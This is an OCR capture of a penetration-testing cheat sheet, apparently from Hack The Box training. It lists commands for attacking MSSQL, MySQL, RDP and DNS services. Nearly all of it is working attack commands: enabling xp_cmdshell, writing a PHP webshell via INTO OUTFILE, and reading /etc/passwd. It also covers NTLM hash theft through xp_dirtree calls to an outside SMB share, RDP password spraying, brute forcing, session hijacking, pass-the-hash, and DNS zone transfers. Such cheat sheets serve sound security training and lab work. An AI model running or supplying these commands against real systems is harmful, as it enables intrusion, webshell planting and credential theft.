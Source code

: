 |sqlcmd> SELECT name FROM master.dbo.sysdatabases|Show all available databases in MSSQL.|
|sqlcmd> USE htbusers|Select a specific database in MSSQL.|
|sqlcmd> SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES|Show all available tables in the selected database in MSSQL.|
|sqlcmd> SELECT * FROM users|Select all available entries from the "users" table in MSSQL.|
|sqlcmd> EXECUTE sp_configure 'show advanced options', 1|To allow advanced options to be changed.|
|sqlcmd> EXECUTE sp_configure 'xp_cmdshell', 1|To enable the xp_cmdshell.|
|sqlcmd> RECONFIGURE|To be used after each sp_configure command to apply the changes.|
|sqlcmd> xp_cmdshell 'whoami'|Execute a system command from MSSQL server.|
|mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'|Create a file using MySQL.|
|mysql> show variables like "secure_file_priv";|Check if the the secure file privileges are empty to read locally stored files on the system.|
|sqlcmd> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents|Read local files in MSSQL.|
|mysql> select LOAD_FILE("/etc/passwd");|Read local files in MySQL.|
|sqlcmd> EXEC master..xp_dirtree '[\\10.10.110.17\share\](file://10.10.110.17/share/)'|Hash stealing using the xp_dirtree command in MSSQL.|
|sqlcmd> EXEC master..xp_subdirs '[\\10.10.110.17\share\](file://10.10.110.17/share/)'|Hash stealing using the xp_subdirs command in MSSQL.|
|sqlcmd> SELECT srvname, isremote FROM sysservers|Identify linked servers in MSSQL.|
|sqlcmd> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]|Identify the user and its privileges used for the remote connection in MSSQL.|

Attacking RDP

|   |   |
|---|---|
|Command|Description|
|crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'|Password spraying against the RDP service.|
|hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp|Brute-forcing the RDP service.|
|rdesktop -u admin -p password123 192.168.2.143|Connect to the RDP service using rdesktop in Linux.|
|tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}|Impersonate a user without its password.|
|net start sessionhijack|Execute the RDP session hijack.|
|reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f|Enable "Restricted Admin Mode" on the target Windows host.|
|xfreerdp /v:192.168.2.141 /u:admin /pth:A9FDFA038C4B75EBC76DC855DD74F0DA|Use the Pass-The-Hash technique to login on the target host without a password.|

Attacking DNS

|   |   |
|---|---|
|Command|Description|
|dig AXFR @ns1.inlanefreight.htb inlanefreight.htb|Perform an AXFR zone transfer attempt against a specific name server.|
|subfinder -d inlanefreight.com -v|Brute-forcing subdomains.|
|host support.inlanefreight.com|DNS lookup for the specified subdomain.|
